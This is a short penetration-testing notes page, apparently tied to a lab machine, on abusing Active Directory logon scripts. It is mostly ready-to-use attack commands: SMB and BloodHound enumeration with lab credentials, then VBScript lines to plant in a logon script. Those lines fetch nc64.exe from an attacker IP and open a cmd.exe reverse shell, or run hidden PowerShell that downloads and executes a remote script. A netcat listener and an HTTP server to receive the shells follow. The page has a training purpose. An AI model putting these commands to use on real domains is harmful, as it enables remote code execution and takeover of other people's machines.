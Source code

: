# Logon Script Abuse

### Check if you can update Logon script in SMB

```
crackmapexec smb $RHOST -u library -p library --shares
```



### Check if a logon script is configured for your target users

{% code overflow="wrap" %}
```bash
Kali> bloodhound.py -u 'library' -p 'library' -v --zip -c All -ns $RHOST -d baby2.vl -dc dc.baby2.vl
# Ensure you configure DC FQDN name in host file 
Kali> cme ldap $RHOST -u library -p library --bloodhound -ns $RHOST -c all
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### Add vbs functions to the script

```bash
# Add the following to the script somewhere. 
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl 10.8.0.251/privesc/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.0.251 1234 -e cmd.exe"
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Another example:&#x20;

{% code overflow="wrap" %}
```bash
Set oShell = CreateObject("Wscript.Shell")
oShell.Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://10.8.0.251/shell.ps1')" 
```
{% endcode %}

### Wait for a moment to get this script running while preparing the reverse shell&#x20;

```bash
# HTTP Server
sudo python3 -m http.server 80

# Netcat listner
nc -nlvp 1234 
```
